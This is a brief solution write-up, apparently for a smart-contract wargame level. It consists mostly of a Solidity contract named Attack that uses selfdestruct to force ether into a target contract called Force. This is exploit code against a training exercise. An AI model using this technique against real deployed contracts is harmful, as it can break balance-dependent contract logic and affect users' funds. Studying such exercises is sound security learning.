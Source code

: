 ## Description
While doing level 9, I saw how to do this one
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IForce {
    
}

contract Attack {
    IForce force;

    constructor(IForce _force) {
        force = IForce(_force);
    }

    function attack() public payable {
        address payable addr = payable(address(force));
        selfdestruct(addr);
    }
}
```